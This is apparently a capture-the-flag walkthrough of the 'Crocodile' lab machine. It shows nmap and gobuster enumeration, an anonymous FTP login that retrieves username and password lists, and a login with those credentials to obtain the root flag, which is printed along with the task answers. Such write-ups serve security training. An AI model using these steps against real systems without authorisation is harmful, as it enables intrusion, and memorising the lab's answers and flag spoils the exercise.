


# Crocodile

## Task 1: What nmap scanning switch employs the use of default scripts during a scan?

`-sC`

from manpage:

```text
 -sC: equivalent to --script=default
```

## Task 2: What service version is found to be running on port 21?

vsFTPd 3.0.3

## Task 3: What FTP code is returned to us for the "Anonymous FTP login allowed" message?

230

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ ftp 10.129.71.2
Connected to 10.129.71.2.
220 (vsFTPd 3.0.3)
Name (10.129.71.2:realkali): anonymous
230 Login successful.
```

## Task 4: What command can we use to download the files we find on the FTP server?

get

## Task 5: What is one of the higher-privilege sounding usernames in the list we retrieved?

answer: admin

```bash
ftp> ls
229 Entering Extended Passive Mode (|||49769|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||41717|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |***************************************************************************|    33       13.46 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.10 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||44156|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |***************************************************************************|    62      167.71 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.20 KiB/s)
```

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin

┌──(realkali㉿SeaDragnoL)-[~]
└─$ cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

## Task 6: What version of Apache HTTP Server is running on the target host?

2.4.41

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV -p 80 10.129.21.149 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-16 14:05 EDT
Nmap scan report for 10.129.21.149
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.04 seconds
```

## Task 7: What is the name of a handy web site analysis plug-in we can install in our browser?

Wappalyzer

## Task 8: What switch can we use with gobuster to specify we are looking for specific filetypes?

-x

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir --help
Uses directory/file enumeration mode

Usage:
  gobuster dir [flags]

Flags:
  -x, --extensions string               File extension(s) to search for
```

## Task 9: What file have we found that can provide us a foothold on the target?

login.php

```bash
┌──(kali㉿kali)-[/usr/share/wordlists/dirb]
└─$ gobuster dir -x php -w common.txt -u 10.129.21.149
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.21.149
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/16 15:02:08 Starting gobuster in directory enumeration mode
===============================================================
/.hta.php             (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.129.21.149/assets/]
/config.php           (Status: 200) [Size: 0]                                     
/css                  (Status: 301) [Size: 312] [--> http://10.129.21.149/css/]   
/dashboard            (Status: 301) [Size: 318] [--> http://10.129.21.149/dashboard/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.21.149/fonts/]    
/index.html           (Status: 200) [Size: 58565]                                    
/js                   (Status: 301) [Size: 311] [--> http://10.129.21.149/js/]       
/login.php            (Status: 200) [Size: 1577]                                     
/logout.php           (Status: 302) [Size: 0] [--> login.php]                        
/server-status        (Status: 403) [Size: 278]
```

## Task 10: Submit root flag

c7110277ac44d78b6a9fff2232434d16

login with admin credentials obtained via ftp in login.php page.

